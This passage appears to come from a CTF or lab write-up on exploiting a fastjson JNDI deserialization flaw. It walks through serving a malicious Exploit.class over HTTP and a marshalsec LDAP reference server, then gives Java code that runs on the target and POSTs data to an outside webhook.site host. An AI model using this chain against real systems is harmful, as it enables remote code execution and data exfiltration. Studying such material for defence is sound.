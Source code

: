 Compile it: `javac Exploit.java`, and `Exploit.class` will be generated. Then start a simple Python server:

```
python3 -m http.server --bind 0.0.0.0 8888
```

Your RMI server and Python file server can be on the same machine for convenience. (Again, all the code above comes from the article [红队武器库:fastjson小于1.2.68全漏洞RCE利用exp](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/))

However, this problem is a bit different. I tried the above method several times and found that my RMI server responded, but the file server did not, which means that there seems to be a problem with some link in the chain, causing the entire exploit chain to fail, so it did not execute the final code.

At this point, I tried randomly and saw that marshalsec had another option, `marshalsec.jndi.LDAPRefServer`, so I changed it to this and changed the payload to an LDAP URL, and then it worked, and my file server responded.

Unfortunately, it seems that the command execution was not successful because my server did not receive any requests whether I ran `nc` or `curl`. After continuing to try, I suddenly had an idea: what if the command execution was actually blocked, but the Java code was successfully executed?

So I added `Thread.sleep(5000)` to `Exploit.java` and found that the response was indeed delayed by five seconds. Then I added:

``` java
URL url = new URL("https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b%22);
InputStream iss = url.openStream();
```

and found that the server received the request! So the class was indeed executed, but for some unknown reason, it was not possible to use `Runtime.getRuntime().exec` directly.

My code looks something like this:

``` java
import java.io.*;
import java.net.*;
import java.util.*;

public class Exploit{
    public Exploit() throws Exception {
        String str = "test";
        URL url = new URL("https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b");
        Map<String,Object> params = new LinkedHashMap<>();
        params.put("msg", str);
        StringBuilder postData = new StringBuilder();
        for (Map.Entry<String,Object> param : params.entrySet()) {
            if (postData.length() != 0) postData.append('&');
            postData.append(URLEncoder.encode(param.getKey(), "UTF-8"));
            postData.append('=');
            postData.append(URLEncoder.encode(String.valueOf(param.getValue()), "UTF-8"));
        }
        byte[] postDataBytes = postData.toString().getBytes("UTF-8");

        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("POST");
        conn.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");
        conn.setRequestProperty("Content-Length", String.valueOf(postDataBytes.length));
        conn.setDoOutput(true);
        conn.getOutputStream().write(postDataBytes);
        Reader in = new BufferedReader(new InputStreamReader(conn.getInputStream(), "UTF-8"));
    }

    public static void main(String[] args) throws Exception {
    }
```